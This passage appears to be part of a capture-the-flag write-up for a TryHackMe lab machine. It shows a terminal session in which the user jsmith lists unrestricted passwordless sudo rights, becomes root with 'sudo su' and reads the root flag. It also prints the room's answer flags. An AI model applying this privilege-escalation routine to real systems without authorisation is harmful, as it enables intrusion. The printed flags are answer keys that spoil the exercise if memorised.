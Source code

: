 Flag 2
*THM{Welcome_Home_Wile_E_Coyote!}*

### Root 

As jsmith, we again check for sudo rights (this btw, should be your first action on any box when gaining access to a account)

There are several ways to exploit this rights. Go for it!

```
jsmith@Securus:~$ sudo -l           sudo -l
sudo -l
Matching Defaults entries for jsmith on Securus:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jsmith may run the following commands on Securus:
    (ALL : ALL) NOPASSWD: ALL
jsmith@Securus:~$ sudo su           sudo su
sudo su
root@Securus:/home/jsmith# ls -la
ls -la
total 24
drwxrwx--- 2 jsmith jsmith 4096 Apr 25  2020 .
drwxr-xr-x 4 root   root   4096 Apr 26  2020 ..
-rw-r--r-- 1 jsmith jsmith  220 Nov  5  2016 .bash_logout
-rw-r--r-- 1 jsmith jsmith 3515 Nov  5  2016 .bashrc
-rw-r--r-- 1 jsmith jsmith   33 Apr 25  2020 flag2.txt
-rw-r--r-- 1 jsmith jsmith  675 Nov  5  2016 .profile
root@Securus:/home/jsmith# cd /root
cd /root
root@Securus:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Apr 26  2020 .
drwxr-xr-x 22 root root 4096 Apr 17  2020 ..
lrwxrwxrwx  1 root root    9 Apr 22  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   43 Apr 25  2020 flag3.txt
drwx------  2 root root 4096 Apr 23  2020 .gnupg
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
drwx------  2 root root 4096 Apr 17  2020 .ssh
root@Securus:~# cat flag3.txt
cat flag3.txt
THM{Great_work!_You_pwned_Erit_Securus_1!}

```

What sudo rights does jsmith have?
*(ALL : ALL) NOPASSWD: ALL*



Flag 3
*THM{Great_work!_You_pwned_Erit_Securus_1!}*



[[PowerShell for Pentesters]]
